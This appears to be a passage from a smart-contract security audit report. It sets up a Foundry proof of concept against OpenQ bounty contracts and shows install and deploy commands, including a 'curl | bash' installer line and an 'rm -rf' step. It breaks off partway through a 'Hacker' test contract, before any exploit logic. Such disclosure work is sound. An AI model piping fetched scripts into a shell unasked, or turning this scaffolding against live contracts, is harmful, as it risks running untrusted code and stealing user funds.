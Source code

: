I created a foundry POC that demonstrate end to end scenario.
To get it running, first install foundry using the following command:
1. `curl -L https://foundry.paradigm.xyz | bash` (from https://book.getfoundry.sh/getting-started/installation#install-the-latest-release-by-using-foundryup)
2. If local node is not already running and contracts are not deployed, configured and funded - execute the following:
```bash
yarn deploy-contracts:localhost
yarn configure-whitelist:localhost
yarn deploy-bounties:localhost
```
3 Perform the following set of commands from the repository root.
```bash
rm -rf foundry; foundryup; mkdir foundry; cd foundry; forge init --no-commit; cp -r ../contracts ./src/; forge install openzeppelin/openzeppelin-contracts --no-commit; forge install openzeppelin/openzeppelin-contracts-upgradeable --no-commit; echo "@openzeppelin/contracts=lib/openzeppelin-contracts/contracts/\n@openzeppelin/contracts-upgradeable=lib/openzeppelin-contracts-upgradeable/contracts/" > remappings.txt
```
5. Add the following to `foundry/test/Hacker.t.sol
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import {OpenQV1} from "../src/contracts/OpenQ/Implementations/OpenQV1.sol";
import {ClaimManagerV1} from "../src/contracts/ClaimManager/Implementations/ClaimManagerV1.sol";
import {DepositManagerV1} from "../src/contracts/DepositManager/Implementations/DepositManagerV1.sol";
import {BountyCore} from "../src/contracts/Bounty/Implementations/BountyCore.sol";

contract Hacker is Test {
    // Addresses of contracts
    OpenQV1 OPENQ = OpenQV1(0x5FC8d32690cc91D4c39d9d3abcBD16989F875707);
    ClaimManagerV1 CLAIM_MANAGER = ClaimManagerV1(0x2279B7A0a67DB372996a5FaB50D91eAA73d2eBe6);
    DepositManagerV1 DEPOSIT_MANAGER = DepositManagerV1(0xB7f8BC63BbcaD18155201308C8f3540b07f84F5e);

    // Bounties
    string atomicBountyWithGoalId = "I_kwDOGWnnz85GjwA1";
    BountyCore bountyAddress;

    //oracle
    address oracle;

    function setUp() public {
        bountyAddress = BountyCore(OPENQ.bountyIdToAddress(atomicBountyWithGoalId));
        oracle = CLAIM_MANAGER.oracle();
    }

    // Helped to deposit funds to bounty
    function fundBountyToken(uint256 amount, uint256 expire) public {
        DEPOSIT_MANAGER.fundBountyToken{value: amount}(
        address(bountyAddress),
        address(0), // MATIC
        amount,
        expire,
        string(abi.encodePacked(msg.sender)) // Unique for every funder
        );
    }

    // Helper to generate deposit ID
    function generateDepositId() internal view virtual returns (bytes32) {
        return keccak256(abi.encode(atomicBountyWithGoalId, bountyAddress.getDeposits().length));
    }
```